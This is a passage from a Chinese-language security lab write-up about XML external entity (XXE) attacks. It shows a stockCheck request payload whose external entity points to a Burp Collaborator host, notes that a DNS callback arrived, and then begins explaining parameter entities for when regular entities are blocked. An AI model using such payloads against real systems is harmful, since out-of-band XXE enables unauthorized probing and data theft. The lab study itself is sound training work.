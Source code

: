 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://9akkf2r1p6opbvygad7jyey0crih66.burpcollaborator.net"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

观察到平台接收到 dns 请求

<img src=".\图片\Snipaste_2023-07-31_10-50-00.png" alt="Snipaste_2023-07-31_10-50-00" style="zoom:80%;" />

## Lab4

### 前置

一般使用常规实体的XXE攻击会被阻止，因为应用程序进行了一些输入验证，或者使用的XML解析器进行了一些加固。在这种情况下，可以改用XML参数实体。

XML参数实体是一种特殊类型的XML实体，只能在DTD中的其他位置引用

1）XML参数实体的声明在实体名称前包含百分比字符：

```
<!ENTITY % myparameterentity "my parameter entity value" >
```

2）使用%百分比字符而不是通常的&号引用参数实体：

```
%myparameterentity;
```
